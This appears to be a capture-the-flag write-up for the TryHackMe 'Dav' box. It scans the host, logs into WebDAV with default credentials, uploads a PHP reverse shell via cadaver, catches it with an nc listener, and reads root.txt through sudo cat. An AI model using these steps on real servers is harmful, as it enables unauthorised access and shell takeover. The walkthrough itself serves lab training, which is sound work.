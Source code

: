 # 'Dav' box writeup
## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)
# ![bg](images/background.jpeg?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**

# ![nmap](images/nmap_dirb_scan.jpg?raw=true "nmap")

+ **Let's run a gobuster search too and see our results. It seems that a webdav service is running**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``

# ![dirb](images/nmap_dirb_scan2.jpg?raw=true "dirb")

**Navigating to the /webdav directory, the login page shows up. We need some credentials, and searching on google we can find some**

# ![login](images/login.png?raw=true "login")

``user: wampp``

``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

# ![webdav](images/webdav.jpg?raw=true "webdav")

+ **Reading the file, it seems to be some credentials with a hashed password. Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service. It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory. Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``

``Username: wampp``

``Password: xampp``

+ **Now, let's try to upload a reverse php shell. I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

# ![php](images/php-reverse-shell.jpg?raw=true "php")

# ![php](images/uploaded.jpg?raw=true "php")

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``

``http://10.10.62.166/webdav/php-reverse-shell.php``

# ![werein](images/werein.jpg?raw=true "in")

# User escalation

**And we're in. Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user**

``python -c 'import pty;pty.spawn("/bin/bash")'``

# ![in](images/usermer.jpg?raw=true "user")

# Root escalation

+ **Let's run a ``sudo -l`` command to see what commands www-data user can run**

# ![sudol](images/sudol.jpg?raw=true "sudol")

+ **It seems that the we can run the cat command with super user privileges so we can read our root flag**

``sudo cat /root/root.txt``

# ![root](images/rootflagoz.jpg?raw=true "root")
